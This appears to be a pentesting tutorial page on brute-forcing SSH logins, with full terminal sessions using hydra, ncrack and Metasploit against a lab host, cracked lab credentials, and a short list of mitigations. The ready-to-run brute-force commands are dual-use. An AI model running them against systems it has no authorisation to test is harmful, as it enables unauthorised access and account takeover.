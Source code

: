 ```yaml
---
title: SSH Pentesting -> Bruteforce
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, bruteforce]     # TAG names should always be lowercase
---
```


# Bruteforce: *mitre -> T1110*
***Bruteforce*** Is a technigue that uses trial-and-error to guess login credentials.

# Tools

These are some of the tools that are used to bruteforce ssh credentials.

- hydra
- ncrack
- metasploit

## hydra

[Hydra](https://www.kali.org/tools/hydra/) is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

Syntax
> hydra -L [userfile] -P [password_file] ssh://[target_ip]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ hydra -L user.txt -P pass.txt ssh://192.168.43.234
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-05 20:20:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking ssh://192.168.43.234:22/
[22][ssh] host: 192.168.43.234   login: 'user1'   password: 'user1'
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-05 20:20:59	
```
## Ncrack

[Ncrack](https://www.kali.org/tools/ncrack/) Is a high-speed network authentication cracking tool. It was built to help companies secure their networks by proactively testing all their hosts and networking devices for poor passwords.

syntax 
> ncrack -U [userfile] -P [password_file] ssh://[target]

```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ ncrack -U user.txt -P pass.txt ssh://192.168.43.234

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-06-05 20:29 EDT

Discovered credentials for ssh on 192.168.43.234 22/tcp:
192.168.43.234 22/tcp ssh: 'user1' 'user1'

Ncrack done: 1 service scanned in 21.01 seconds.
```

## Metasploit

[Metasploit](https://www.kali.org/tools/metasploit-framework/) Is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.43.234
rhost => 192.168.43.234
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /home/cyberkhalid/pentest/user.txt
user_file => /home/cyberkhalid/pentest/user.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/cyberkhalid/pentest/pass.txt
pass_file => /home/cyberkhalid/pentest/pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.168.43.234:22 - Starting bruteforce
[+] 192.168.43.234:22 - Success: 'user1:user1' 'uid=1000(user1) gid=1000(user1) groups=1000(user1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),134(sambashare) Linux user1-VirtualBox 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (192.168.43.1:41713 -> 192.168.43.234:22) at 2022-06-05 20:40:02 -0400

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
	
```
## Using private keys

```bash
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options                                                                                                                
                                                                                                                                                                      
Module options (auxiliary/scanner/ssh/ssh_login_pubkey):                                                                                                              
                                                                                                                                                                      
   Name              Current Setting               Required  Description                                                                                              
   ----              ---------------               --------  -----------                                                                                              
   BRUTEFORCE_SPEED  5                             yes       How fast to bruteforce, from 0 to 5                                                                      
   DB_ALL_USERS      false                         no        Add all users in the current database to the list                                                        
   KEY_PASS                                        no        Passphrase for SSH private key(s)                                                                        
   KEY_PATH                                        no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" wi  
                                                             ll be skipped. Duplicate private keys will be ignored.                                                   
   PRIVATE_KEY       /home/cyberkhalid/pentest/id  no        The string value of the private key that will be used. If you are using MSFConsole, this value should b  
                                                             e set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.                 
   RHOSTS            192.168.43.234                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit             
   RPORT             22                            yes       The target port                                                                                          
   STOP_ON_SUCCESS   false                         yes       Stop guessing when a credential works for a host                                                         
   THREADS           1                             yes       The number of concurrent threads (max one per host)                                                      
   USERNAME          user1                         no        A specific username to authenticate as                                                                   
   USER_FILE                                       no        File containing usernames, one per line                                                                  
   VERBOSE           true                          yes       Whether to print output for all attempts                                                                 
                                                                                                                                                                                                                                                                                                 
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_path /home/cyberkhalid/pentest/id                                                                              
key_path => /home/cyberkhalid/pentest/id                                                                                                                              
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass Passsword@123                                                                                             
key_pass => Passsword@123                                                                                                                                                
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit                                                                                                                
                                                                                                                                                                      
[*] 192.168.43.234:22 SSH - Testing Cleartext Keys                                                                                                                    
[*] 192.168.43.234:22 - Testing 1 key from /home/cyberkhalid/pentest/id                                                                                               
[+] 192.168.43.234:22 - Success: 'user1:-----BEGIN RSA PRIVATE KEY----- 
```
# Mitigations

- Enforce password policies.
- Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed.
- Use multi-factor authentication.

# References

- [https://attack.mitre.org/techniques/T1110/](https://attack.mitre.org/techniques/T1110/)
- [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
- [https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)
- [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)
- [https://attack.mitre.org/mitigations/M1027/](https://attack.mitre.org/mitigations/M1027/)
- [https://attack.mitre.org/mitigations/M1032/](https://attack.mitre.org/mitigations/M1032/)
- [https://attack.mitre.org/mitigations/M1036/](https://attack.mitre.org/mitigations/M1036/)
